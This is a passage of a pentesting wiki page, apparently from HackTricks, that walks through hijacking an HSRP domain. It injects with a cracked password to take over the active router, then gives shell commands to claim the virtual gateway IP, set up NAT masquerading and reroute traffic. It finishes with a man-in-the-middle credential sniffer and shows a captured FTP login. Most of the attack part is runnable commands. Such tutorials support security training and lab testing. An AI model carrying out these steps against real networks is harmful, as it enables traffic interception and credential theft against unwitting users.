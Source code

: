 Select the router with an address of **10.10.100.100** and a priority of **200**. As the **Secret** parameter, **enter the cracked password** from the HSRP domain, generate a Gratuitous ARP and select the **Get IP** option.

<figure><img src="../../.gitbook/assets/image (192).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (237).png" alt=""><figcaption></figcaption></figure>

**As we can see, the Active router is now our attacking system. The priority value is 255.**

**After injection we need to create a secondary IP address on our network interface with the value of the virtual IP address in the HSRP domain. You should also specify 24-bit mask. In this way, legitimate traffic will be looped back to us, because the virtual IP address used in the HSRP domain is the default gateway address for hosts.**

```
~$ sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
```

**We set up the well-known Source NAT (masquerading) to intercept all traffic:**

```
~$ sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

**We remove the default route on our machine and write a new one which will go through the former Active router (its address is 10.10.100.100). Even though we have hijacked the active role from the router, it will still be able to route traffic.**

```
~$ sudo route del default
~$ sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```

**Now we are the “man in the middle”. Let’s run** [**net-creds.py**](https://github.com/DanMcInerney/net-creds)**:**

```
~$ sudo python2 net-creds.py -i eth0
```

After running the utility, I will reproduce an attempt to authenticate to the FTP server at 172.16.100.140:

```
~$ ftp 172.16.100.140
```

<figure><img src="../../.gitbook/assets/image (179).png" alt=""><figcaption></figcaption></figure>

As a result, we get creeds from the FTP server: **insomnia:betrayal**

This is how you can attack the HSRP domain and intercept traffic. Basically, everything is similar to GLBP.

<details><summary><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ HackTricks LIVE Twitch</strong></a> <strong>Wednesdays 5.30pm (UTC) 🎙️ -</strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
